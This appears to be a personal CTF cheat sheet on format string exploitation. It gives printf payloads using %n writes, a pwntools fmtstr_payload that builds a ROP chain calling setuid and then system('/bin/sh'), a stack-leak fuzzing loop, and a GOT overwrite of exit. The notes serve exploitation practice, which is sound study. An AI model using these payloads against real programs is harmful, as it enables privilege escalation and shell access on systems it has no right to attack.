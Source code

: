 ### [Format String Guide](https://axcheron.github.io/exploit-101-format-strings/)

### Format Specifiers
- `%ln` - Writes 8 bytes
- `%n` - Writes 4 bytes
- `%hn` - Writes 2 bytes
- `%hhn` - Writes 1 byte

### Writing memory
- Writing "ABCD" to a buffer (here it's the first argument):
	- `printf("%1145258561x%1$n", buf);`
	- `hex(1145258561)` = `0x44434241`
- Writing "ABCD" to a buffer (Smarter):
	- `printf("%64x%1$hhn%c%2$hhn%c%3$hhn%c%4$hhn", buf, buf+1, buf+2, buf+3);`

### Dynamic Padding
- Pad an amount found on the stack, and therefore copying a value from the stack to another place
- `%*20$d` will write the amount of bytes specified on the 20th argument to `printf`
- Can be used like this:
	 - `%*20$d%48$n`
	- This will copy the value in the 20th argument to the 48th argument, by writing the amount of bytes in the 20th argument to stdout.

### pwntools `fmtstr_payload()` to create format string
```python
payload = fmtstr_payload(
    offset=0x11+6,
    writes={
        return_addr: libc_rop.find_gadget(["pop rdi", "ret"])[0],
        return_addr+8: 0,
        return_addr+16: libc.sym.setuid,
        return_addr+24: libc_rop.find_gadget(["pop rdi", "ret"])[0],
        return_addr+32: next(libc.search(b"/bin/sh\x00")),
        #return_addr+40: libc_rop.find_gadget(["ret"])[0],
        return_addr+40: libc.sym.system
    },
    no_dollars=True,
    numbwritten=already_written,
    offset_bytes=5
)
```


### [Overwriting `rtld_lock_default_lock_recursive` in exit, when full RELRO](https://hxp.io/blog/92/hxp-CTF-2021-zehn-writeup/)
- See level 11 and 11.1 in pwn.college. Also [this](The-danger-of-repetivive-format-string-vulnerabilities-and-abusing-exit-on-full-RELRO)

### Convert memory values to string
```python
# Contains values in memory after format string attack
stack = [0x9fde390,0x804b000,0x80489c3,0xf7fc1d80]

stack = "".join([hex(i)[2:] for i in stack[::-1]])

for i in range(len(stack), 0, -2):
    try:
        print(chr(int(stack[i:i+2],16)), end="")
    except:
        pass
```

### Fuzzing script for fmt
```python
from pwn import *

elf = context.binary = ELF('printf')

for i in range(1, 100):
    io = process(elf.path, level='error')
    io.recvuntil(b"What's your name?\n")
    io.sendline(f"%{i}$p")
    io.recvline()
    output = io.recvline().decode().strip()

    print(f"{i}: {output}")   
    io.close()
```

### Pwntools format string 
```python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload

def send_payload(payload):
    io.sendline(payload)
    return io.recvline()

format_string = FmtStr(execute_fmt=send_payload, offset=6)
# overwrite exit with main address
format_string.write(elf.got['exit'], elf.symbols['main'])
format_string.execute_writes()
```
